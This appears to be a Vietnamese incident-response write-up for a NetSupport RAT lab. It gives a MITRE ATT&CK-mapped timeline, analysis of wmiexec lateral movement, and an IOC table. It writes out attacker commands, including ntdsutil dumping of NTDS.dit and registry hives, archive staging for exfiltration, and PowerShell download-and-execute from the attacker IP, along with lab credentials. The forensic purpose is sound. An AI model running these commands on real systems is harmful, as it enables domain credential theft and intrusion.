

Các lệnh độc hại trên DC01 đều được process `WmiPrvSE.exe` khởi chạy dưới danh tính `aclark` với đặc quyền cao (Integrity Level = **High**), đồng thời, output của lệnh được pipe vào một tệp tạm có tên theo định dạng `C:\Windows\__<epoch_time>`. Đây là dấu hiệu đặc trưng của công cụ **wmiexec** thuộc bộ công cụ Impacket, công cụ này tạo tệp tạm trên ổ đĩa máy mục tiêu (thường trong C:\Windows\\___<số>) để lưu kết quả lệnh trước khi đọc qua SMB rồi xóa tệp.

IP nguồn quan sát được là `10.10.5.142` (IP attacker) thay vì IP C2 `10.10.5.100`, cho thấy attacker có thể đã thành công thay đổi firewall rule trên DC01 (qua các lệnh `wmic` trước đó) để cho phép gọi hàm WMI từ xa trên DC từ IP của chính hắn.

#### 9.2. NTDS Dump và Exfiltration staging
Các lệnh quan sát được:
| Thời gian | Lệnh | Mô tả |
|---|---|---|
| 2025-07-18 01:06:28 | `powershell.exe "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\ProgramData\ntdsutil' q q"` | Lạm dụng công cụ hợp lệ `ntdsutil` để dump tệp **NTDS.dit** (cơ sở dữ liệu AD chứa hash password toàn bộ domain), hive **SYSTEM** (chứa boot key để decrypt NTDS.dit) và hive **SECURITY** (chứa LSA Secrets, machine account secrets, DPAPI secrets) |
| 2025-07-18 01:08:15 | `powershell -c Compress-Archive -Path C:\ProgramData\ntdsutil -DestinationPath C:\Data_backup_20250716.zip` | Nén dữ liệu đã dump thành `C:\Data_backup_20250716.zip` — chuẩn bị cho exfiltration |

# Incident Timeline – NetSupport RAT - TA569 Lab

| Timestamp | Tactic | Technique ID | Technique / Sub-technique | Bằng chứng liên quan |
|---|---|---|---|---|
| 2025-07-17 19:38:16 | Initial Access | T1566.001 | Spearphishing Attachment | User danderson trên host IT-WS01 dùng msedge.exe tải Invoices.zip từ http://10.10.5.142/Invoices.zip về thư mục C:\Users\danderson\Downloads\. Sau đó, giải nén ra tệp Invoice_2326.js (Sysmon Event 15, 11). |
| 2025-07-17 19:39:23 – 19:40:39 | Execution | T1059.007 / T1059.001 / T1564.003 | JavaScript / PowerShell / Hide Artifacts: Hidden Window | Process wscript.exe thực thi Invoice_2326.js → spawn powershell.exe chạy lệnh với cờ -NoProfile -WindowStyle Hidden, tải và thực thi payload update.ps1 từ http://10.10.5.142/update.ps1 trong memory bằng IEX (Sysmon Event 1, 3). |
| 2025-07-17 19:39:29 – 19:40:40 | Command and Control | T1105 | Ingress Tool Transfer | powershell.exe kết nối tới 10.10.5.142:80 tải binary netsupport.exe vào thư mục ngẫu nhiên trong AppData\Roaming. Payload giả mạo phần mềm quản trị hợp lệ NetSupport Manager (Sysmon Event 3, 11, 29). |
| 2025-07-17 19:40:41 | Persistence | T1547.001 | Registry Run Keys / Startup Folder | powershell.exe (PID 4876) thêm value NetSupport vào HKCU Run Key trỏ tới C:\Users\danderson\AppData\Roaming\hkcJM8qC\netsupport.exe để duy trì persistence mỗi khi user danderson đăng nhập vào máy (Sysmon Event 13). |
| 2025-07-17 19:40:41 – 2025-07-18 08:43:56 | Command and Control | T1219 | Remote Access Software (NetSupport RAT) | RAT netsupport.exe (PID 12792) khởi chạy và duy trì kết nối liên tục tới C2 10.10.5.100:9001 trong suốt ~13 tiếng để nhận lệnh. Ngoài ra ghi nhận thêm 1 kết nối tới DC01 (10.10.11.216) qua port 135 (RPC) và port 49667 với lí do chưa rõ (Sysmon Event 1, 3, 5). |
| 2025-07-17 19:44:03 – 20:08:17 | Discovery | T1087.001/.002 / T1033 / T1069.002 / T1555.004 / T1135 / T1057 | Account Discovery: Domain Account/Local Account / System Owner Discovery / Permission Groups Discovery: Domain Groups / Credentials from Password Stores: Windows Credential Manager /Network Share Discovery / Process Discovery | Thực thi hàng loạt lệnh recon nhận được từ C2: net user /domain, net user, whoami /all, net group "Domain Admins" /domain, net user ServiceAdmin /domain, cmdkey /add:DC01, cmdkey /list, net view \\CORP.local\SYSVOL, tasklist \| find ssh, ping -n 1 DC01, tasklist (Sysmon Event 1). |
| 2025-07-17 20:26:41 – 20:30:01 | Execution / Command and Control / Persistence / Stealth | T1105 / T1059.003 / T1053.005 / T1572 / T1036.004 | Ingress Tool Transfer / Command and Scripting Interpreter: Windows Command Shell / Scheduled Task / Protocol Tunneling / Masquerading: Masquerade Task or Service | RAT tải payload install.bat từ 10.10.5.142 bằng curl, batch script thực thi và drop SSH client/server vào C:\ProgramData\sshd\. Sau đó, script này tạo 2 scheduled task: "SSH Key Exchange" (reverse SSH tunnel) và "SSH Server" (sshd trên port 2222), cả hai task chạy mỗi 1 phút với /rl highest và đều được đặt tên nhằm giả mạo 1 tác vụ quản trị SSH hợp lệ (Event 106, 100, Sysmon Event 1, 11). |
| 2025-07-17 21:09:38 – 21:12:12 | Persistence / Privilege Escalation | T1136.001 / T1036.010 / T1098.007 | Create Local Account / Masquerading: Masquerade Account Name / Additional Local Groups | Tạo tài khoản backdoor WDAGUtilityAccount2 (đặt tên giả mạo tài khoản hệ thống WDAG) với password = Decryptme1488@. sau đó, thêm acc này vào nhóm Administrators và Remote Desktop Users để cho phép RDP và quyền quản trị cục bộ (Event 4720, 4732, Sysmon Event 1). |
| 2025-07-17 21:12:12 – 21:26:30 | Discovery / Command and Control / Defense Evasion | T1518.001 / T1105 / T1685 | Software Discovery: Security Software Discovery / Ingress Tool Transfer / Disable or Modify Tools (Windows Defender) | Attacker kiểm tra config Window Defender với 2 lệnh Get-MpThreat, Get-MpPreference. Sau đó, tải payload mpms.exe từ 10.10.5.142 nhưng chưa ghi nhận thực thi, thêm exclusion path C:\Users\Public và exclusion process mpms.exe vào Windows Defender (thành công). Tiếp theo, attacker cố gắng tắt tính năng Behavior Monitoring và Realtime Monitoring của Defender bằng Add-MpPreference thay vì Set-MpPreferenc -> thất bại do sai cmdlet. (Defender Event 5007, Sysmon Event 1). |
| 2025-07-17 21:29:00 – 21:36:24 | Discovery / Credential Access | T1057 / T1003.001 | Process Discovery / OS Credential Dumping: LSASS Memory | Vào 2025-07-17 21:29:00, truy vấn thông tin process LSASS bằng lệnh powershell "Get-Process -Name lsass". Sau đó, vào 2025-07-17 21:36:24, RAT netsupport.exe mở handle tới process lsass.exe với access mask = 0x1010 (PROCESS_QUERY_LIMITED_INFORMATION \| PROCESS_VM_READ) — dấu hiệu hành vi dump credentials từ bộ nhớ LSASS (Sysmon Event 10, 1). |
| 2025-07-17 22:13:03 – 22:17:56 | Defense Impairment / Execution | T1686 / T1047 | Impair Defenses: Disable or Modify System Firewall / WMI | Sử dụng wmic để thực thi lệnh từ xa trên DC01 (10.10.11.216), xác thực qua credentials aclark:vm96Dva!. Tạo firewall rule "DCOM" (allow TCP/135 inbound) và "WMI" (allow TCP any port inbound) bằng công cụ netsh advfirewall — mở đường cho lateral movement về sau (Sysmon Event 1). |
| 2025-07-18 01:02:21 | Lateral Movement | T1550.002 / T1047 | Pass the Hash / WMI (wmiexec/Impacket) | Từ IP 10.10.5.142 (IP attacker), attacker sử dụng NTLM hash của user aclark (nhiều khả năng dump được từ LSASS) để đăng nhập vào DC01 và xác thực thông qu giao thức NTLM. Các lệnh được thực thi qua WmiPrvSE.exe với output pipe vào tệp tạm C:\Windows\__<epoch> — dấu hiệu đặc trưng của công cụ wmiexec (Impacket) (Event 4624, 4776, Sysmon Event 1). |
| 2025-07-18 01:06:28 | Credential Access | T1003.003 | OS Credential Dumping: NTDS | Lạm dụng công cụ hợp lệ ntdsutil.exe để dump NTDS.dit ( ệp cơ sở dữ liệu Active Directory chứa hash password toàn bộ domain), hive SYSTEM (chứa boot key) và hive SECURITY (chứa LSA Secrets) vào thư mục C:\ProgramData\ntdsutil trên DC01 (Sysmon Event 1). |
| 2025-07-18 01:08:15 | Collection | T1560.001 | Archive Collected Data: Archive via Utility | Nén dữ liệu đã dump thành C:\Data_backup_20250716.zip bằng PowerShell Compress-Archive — chuẩn bị cho exfiltration. Đặt tên tệp giả mạo bản sao lưu hệ thống bình thường (Sysmon Event 1). |

# Indicators of Compromise (IOC)

| Loại | Giá trị |
|---|---|
| IP | `10.10.5.142` |
| IP | `10.10.5.100` |
| C2 IP:Port | `10.10.5.100:9001` |
| Reverse SSH endpoint | `10.10.5.142:22` |
| URL | `http://10.10.5.142/Invoices.zip` |
| URL | `http://10.10.5.142/update.ps1` |
| URL | `http://10.10.5.142/install.bat` |
| URL | `http://10.10.5.142/mpms.exe` |
| SHA256 – netsupport.exe | `81EDC7075CA7BE5512FB7952874C9D174E64EDD4409FFA91991C058F5B2B176C` |
| SHA1 – netsupport.exe | `AE5A3A98C198E998A1A22D300C7E027EF7647657` |
| MD5 – netsupport.exe | `CBC0745956FEFB5907AEC80BBADD5EC8` |
| IMPHASH – netsupport.exe | `F0EA7B7844BBC5BFA9BB32EFDCEA957C` |
| File | `Invoices.zip` |
| File | `C:\Users\danderson\Downloads\Invoices\Invoice_2326.js` |
| File | `C:\Users\danderson\AppData\Roaming\P8jTg6Hj\netsupport.exe` |
| File | `C:\Users\danderson\AppData\Roaming\hkcJM8qC\netsupport.exe` |
| File | `C:\Users\danderson\install.bat` |
| File | `C:\ProgramData\sshd\ssh.exe` |
| File | `C:\ProgramData\sshd\sshd.exe` |
| File | `C:\ProgramData\sshd\config\keys\id_rsa` |
| File | `C:\ProgramData\sshd\config\sshd_config` |
| File | `C:\Users\danderson\Documents\mpms.exe` |
| File | `C:\ProgramData\ntdsutil` |
| File | `C:\Data_backup_20250716.zip` |
| Registry | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\NetSupport` |
| Scheduled Task | `SSH Key Exchange` |
| Scheduled Task | `SSH Server` |
| Local account  | `IT-WS01\WDAGUtilityAccount2` |
| Account | `aclark` |
| Windows Defender – ExclusionPath | `C:\Users\Public` |
| Windows Defender – ExclusionProcess | `C:\Users\danderson\Documents\mpms.exe` |
| Firewall rule  | `DCOM` |
| Firewall rule  | `WMI` |